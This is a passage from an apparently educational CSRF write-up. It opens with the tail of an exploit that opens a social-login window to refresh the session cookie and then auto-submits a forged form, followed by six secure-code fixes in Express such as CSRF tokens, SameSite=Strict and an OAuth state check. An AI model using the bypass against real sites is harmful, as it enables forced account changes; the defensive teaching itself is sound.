        window.open('/social-login');
        setTimeout(() => document.forms[0].submit(), 7000);
    }
}

Note:
└── Browser implementations may vary
    └── Test each browser
        └── Adjust timing accordingly
```

---
---

## 🛡️ **How to Fix (Secure Code)**

### **Fix 1: Implement CSRF Tokens**

```javascript
// ✅ SECURE - Use CSRF tokens (primary defense)

app.use((req, res, next) => {
    if (!req.session.csrfToken) {
        req.session.csrfToken = crypto.randomBytes(32).toString('hex');
    }
    res.locals.csrfToken = req.session.csrfToken;
    next();
});

app.post('/my-account/change-email', (req, res) => {
    // Validate CSRF token
    if (req.body.csrf !== req.session.csrfToken) {
        return res.status(403).send('Invalid CSRF token');
    }
    
    // Token valid, process request
    updateEmail(req.session.userId, req.body.email);
    res.redirect('/my-account');
});

Benefits:
✅ Works regardless of SameSite
✅ Not affected by cookie refresh
✅ Strong CSRF protection
✅ Industry standard

Note:
└── CSRF tokens are PRIMARY defense
    └── SameSite is ADDITIONAL protection
        └── Never rely on SameSite alone!
```

---

### **Fix 2: Use SameSite=Strict**

```javascript
// ✅ SECURE - Strict SameSite (if compatible)

res.cookie('session', sessionId, {
    httpOnly: true,
    secure: true,
    sameSite: 'Strict'  // Strongest protection
});

Benefits:
✅ No 2-minute window
✅ Never sent cross-site
✅ Blocks all cross-site CSRF

Drawbacks:
⚠️ May break OAuth flows
⚠️ Breaks SSO functionality
⚠️ User must re-login after external navigation

Use when:
└── No external authentication needed
    └── No SSO/OAuth
        └── All auth is same-site
```

---

### **Fix 3: Don't Refresh Session on OAuth**

```javascript
// ✅ SECURE - Reuse session instead of refresh

app.get('/oauth-callback', (req, res) => {
    const code = req.query.code;
    const token = exchangeCodeForToken(code);
    const userInfo = getUserInfo(token);
    
    // Check if user already has session
    if (req.session && req.session.userId) {
        // Don't create new session!
        // Just update if needed
        req.session.lastOAuthLogin = Date.now();
    } else {
        // Only create new session if none exists
        req.session.userId = userInfo.userId;
        req.session.csrfToken = crypto.randomBytes(32).toString('hex');
    }
    
    res.redirect('/my-account');
});

Benefits:
✅ Doesn't reset 2-minute timer
✅ Maintains existing session
✅ Reduces attack surface
✅ Session continuity
```

---

### **Fix 4: Add CSRF Protection to OAuth**

```javascript
// ✅ SECURE - CSRF protect OAuth flow itself

app.get('/social-login', (req, res) => {
    // Generate state parameter
    const state = crypto.randomBytes(32).toString('hex');
    req.session.oauthState = state;
    
    // Redirect with state
    res.redirect(`https://oauth-provider.com/authorize?state=${state}`);
});

app.get('/oauth-callback', (req, res) => {
    // Validate state parameter
    if (req.query.state !== req.session.oauthState) {
        return res.status(403).send('Invalid OAuth state');
    }
    
    // Continue OAuth flow...
});

Benefits:
✅ Prevents OAuth CSRF
✅ Can't be triggered cross-site
✅ Blocks automated OAuth flows
✅ Standard OAuth security
```

---

### **Fix 5: Rate Limit Cookie Refresh**

```javascript
// ✅ SECURE - Limit refresh attempts

const refreshAttempts = new Map();

app.get('/oauth-callback', (req, res) => {
    const userId = extractUserId(req);
    const attempts = refreshAttempts.get(userId) || [];
    const now = Date.now();
    
    // Remove old attempts (>5 minutes)
    const recent = attempts.filter(t => now - t < 300000);
    
    // Check rate limit
    if (recent.length >= 3) {
        return res.status(429).send('Too many login attempts');
    }
    
    recent.push(now);
    refreshAttempts.set(userId, recent);
    
    // Continue OAuth flow...
});

Benefits:
✅ Prevents rapid cookie refresh
✅ Limits attack attempts
✅ Detects automated abuse
✅ Defense in depth
```

---

### **Fix 6: Require Re-authentication**

```javascript
// ✅ SECURE - Require password for email change

app.post('/my-account/change-email', (req, res) => {
    // Validate CSRF token
    if (req.body.csrf !== req.session.csrfToken) {
        return res.status(403).send('Invalid CSRF token');
    }
    
    // Require current password
    if (!verifyPassword(req.session.userId, req.body.password)) {
        return res.status(403).send('Invalid password');
    }
    
    // Both validations passed
    updateEmail(req.session.userId, req.body.email);
    res.redirect('/my-account');
});

Benefits:
✅ Extra layer of security
✅ Requires something attacker doesn't have
✅ Best for critical operations
✅ User verification
```

---
